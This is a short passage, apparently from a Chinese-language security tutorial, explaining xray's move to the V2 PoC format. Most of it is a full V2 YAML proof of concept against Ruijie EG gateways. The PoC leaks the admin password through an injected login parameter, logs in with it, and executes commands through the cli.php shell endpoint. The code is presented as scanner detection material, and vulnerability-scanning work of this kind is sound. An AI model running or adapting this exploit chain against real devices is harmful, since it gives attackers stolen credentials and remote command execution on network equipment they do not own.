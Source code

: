 ‍  
  
#### V2版本  
  
  
  
xray在久违的更新后，POC的编写格式也更新到了V2，官方也是将已经存在的200+的poc自动转换成了V2版本，官网也已经更新了V2版本的编写教程。当然P神的那个辅助POC生成器只能生成V1版本。但我们可以使用xray自带的命令将V1版本转换为V2版本，具体方式则可以通过xray.exe transform v1 --help进行查看。  
  
  
以下是V2版本的上述POC的代码：  
  
```
name: poc-yaml-ruijie-eg-cli-rce
manual: true
transport: http
set:
    r1: randomInt(8000, 10000)
    r2: randomInt(8000, 10000)
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /login.php
            headers:
                Content-Type: application/x-www-form-urlencoded
            body: |
                username=admin&password=admin?show+webmaster+user
        expression: response.status == 200 && response.content_type.contains("text/json")
        output:
            search: '"{\"data\":\".*admin\\s?(?P<password>[^\\\\\"]*)".bsubmatch(response.body)'
            password: search["password"]
    r1:
        request:
            cache: true
            method: POST
            path: /login.php
            headers:
                Content-Type: application/x-www-form-urlencoded
            body: |
                username=admin&password={{password}}
        expression: response.status == 200 && response.content_type.contains("text/json") && response.headers["Set-Cookie"].contains("user=admin") && response.body.bcontains(b"{\"data\":\"0\",\"status\":1}")
    r2:
        request:
            cache: true
            method: POST
            path: /cli.php?a=shell
            body: |
                notdelay=true&command=expr {{r1}} * {{r2}}
            follow_redirects: false
        expression: response.status == 200 && response.body.bcontains(bytes(string(r1 * r2)))
expression: r0() && r1() && r2()
detail:
    author: Jarcis
    links:
        - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20cli.php%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
```  
  